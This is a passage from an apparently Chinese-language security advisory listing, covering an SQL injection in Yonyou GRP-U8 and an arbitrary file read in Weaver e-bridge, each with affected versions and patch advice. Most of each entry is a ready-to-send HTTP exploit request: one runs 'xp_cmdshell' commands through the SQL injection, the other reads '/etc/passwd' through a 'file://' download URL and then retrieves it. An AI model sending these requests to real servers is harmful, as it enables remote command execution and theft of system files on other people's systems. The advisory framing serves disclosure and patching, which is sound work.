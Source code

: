 用友GRP-U8行政事业内控管理软件存在SQL注入漏洞，攻击者可利用该漏洞进行命令执行。

**影响版本：**

GRP-u8全版本

**利用EXP：**

```
POST /Proxy HTTP/1.1
Accept: Accept: */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)
Host: host
Content-Length: 357
Connection: Keep-Alive
Cache-Control: no-cache
 
 
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell 'ipconfig'</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```
**加固建议**

目前官方已在最新版本中修复了该漏洞，请受影响的用户尽快升级版本进行防护。官方网站：http://shyy.chinaetax.com.cn

### 四、泛微云桥 e-bridge 任意文件读取漏洞

**漏洞描述：**

根据互联网情报监测发现泛微云桥 e-bridge 2018–2019版本存在任意文件读取漏洞，攻击者可利用该漏洞读取服务器上的源代码等敏感信息。

**影响版本：**

2018 – 2019 版本

利用过程：

```
GET /wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt HTTP/1.1
User-Agent: curl/7.29.0
Host: xxxxx
Accept: */*
```

```
GET /file/fileNoLogin/xxxxxxxxxx HTTP/1.1
User-Agent: curl/7.29.0
Host: xxxxx
Accept: */*
```

**加固建议：**

1. 使用官方发布的最新版本：http://wx.weaver.com.cn/download
2. 关闭程序路由 /file/fileNoLogin
